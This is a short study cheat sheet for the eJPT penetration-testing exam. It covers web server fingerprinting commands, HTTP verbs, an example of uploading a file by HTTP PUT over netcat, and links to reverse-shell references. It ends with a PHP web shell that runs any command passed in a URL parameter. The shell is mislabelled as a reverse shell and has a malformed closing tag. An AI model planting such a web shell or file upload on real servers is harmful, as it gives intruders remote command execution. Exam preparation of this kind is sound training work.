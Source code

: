 ## Web Application Tools
 My list of Web Application tools for the eJPT exam.

# HTTP Protocol and Fingerprinting

1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

# HTTP Verbs

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>


# Reverse Shell Links
[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    >


